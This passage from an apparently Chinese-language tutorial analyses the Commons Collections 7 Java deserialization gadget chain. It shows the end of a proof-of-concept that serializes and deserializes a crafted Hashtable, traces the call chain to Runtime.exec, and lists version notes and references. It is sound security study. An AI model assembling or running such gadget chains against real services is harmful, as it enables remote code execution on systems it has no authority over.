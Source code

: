 ```java
            ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("./cc7"));
            outputStream.writeObject(hashtable);
            outputStream.close();

            ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream("./cc7"));
            inputStream.readObject();
        }catch(Exception e){
            e.printStackTrace();
        }
    }
}
```
调用链：
```
Hashtable.readObject()
  Hashtable.reconstitutionPut()
    TiedMapEntry.hashCode()
    TiedMapEntry.getValue()
      AbstractMapDecorator.equals() === AbstractMap.equals()
        LazyMap.get()
           ChainedTransformer.transform()
            ConstantTransformer.transform() // 获取Runtime.class
            InvokerTransformer.transform()   // 获取Runtime.getRuntime
            InvokerTransformer.transform()   // 获取Runtime实例
            InvokerTransformer.transform()   // 调用exec方法触发rce
```
参考：[Java安全之Commons Collections7分析](https://www.cnblogs.com/nice0e3/p/13910833.html)


**版本相关**
>1、3、5、6、7是Commons Collections<=3.2.1中存在的反序列化链。
2、4是Commons Collections 4.0以上中存在的反序列化链。
同时还对JDK的版本有要求，这里使用的测试版本为1.7和1.8

全文参考：
[Java反序列化CommonsCollections篇(一) CC1链手写EXP](https://www.bilibili.com/video/BV1no4y1U7E1)
[理解Java反序列化漏洞(1)](http://www.wxylyw.com/2018/11/07/%E7%90%86%E8%A7%A3Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E-1/)
[从零开始java代码审计系列(一)](https://xz.aliyun.com/t/4558)
[显易懂的JAVA反序列化入门](https://www.cnblogs.com/sijidou/p/13121305.html)
[浅析Java反序列化](https://xz.aliyun.com/t/10508)
[ysoserial分析【一】Apache Commons Collections ](https://www.cnblogs.com/litlife/p/12571787.html)
[Java安全之反序列化篇-URLDNS&Commons Collections 1-7反序列化链分析](https://paper.seebug.org/1242/)
[Java 反序列化取经路](https://su18.org/post/ysuserial/)
[Java 反序列化漏洞（二） - Commons Collections](https://su18.org/post/ysoserial-su18-2)
[反序列化CC篇总结](https://longlone.top/%E5%AE%89%E5%85%A8/java/java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96CC%E7%AF%87%E6%80%BB%E7%BB%93/)
[通俗易懂的Java Commons Collections 5、6、7分析](https://xz.aliyun.com/t/10457)